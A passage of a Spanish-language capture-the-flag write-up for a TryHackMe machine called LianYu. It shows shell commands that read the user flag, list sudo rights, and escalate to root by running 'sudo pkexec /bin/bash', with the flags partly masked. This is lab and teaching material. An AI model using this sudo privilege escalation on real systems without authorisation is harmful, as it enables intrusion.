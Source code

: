 Una vez nos hemos conectado, listaremos las rutas a las que tenemos acceso para encontrar el user.txt

```bash
s***e@LianYu:~$ cat user.txt
THM{******************************T}
			--Felicity Smoak
```

Tras encontrar la primera flag, tendremos que realizar una escalada de privilegios para tener acceso al archivo root.txt, para realizar esto listaremos los servicios en los que tenemos permiso como sudo, para intentar aprovecharlo.

```bash
s***e@LianYu:~$ sudo -l
[sudo] password for s***e: 
Matching Defaults entries for s***e on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Podemos comprobar que podemos ejecutar el comando pkexec como sudo, por lo tanto ejecutaremos el /bin/bash para tener acceso a una terminal con permisos de root.

```bash
s***e@LianYu:~$ sudo pkexec /bin/bash
root@LianYu:~#
```

Ahora nos dirigiremos a la ruta en la cual esta el archivo root.txt y haremos un cat para visualizar la información de este archivo.

```bash
root@LianYu:~# cat root.txt
                          Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 

THM{MY_W*************************************************************D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

Como se puede comprobar, se ha obtenido la flag del root.txt

## Contact

[📧 danielruizraposo02@gmail.com](mailto:danielruizraposo02@mail.com)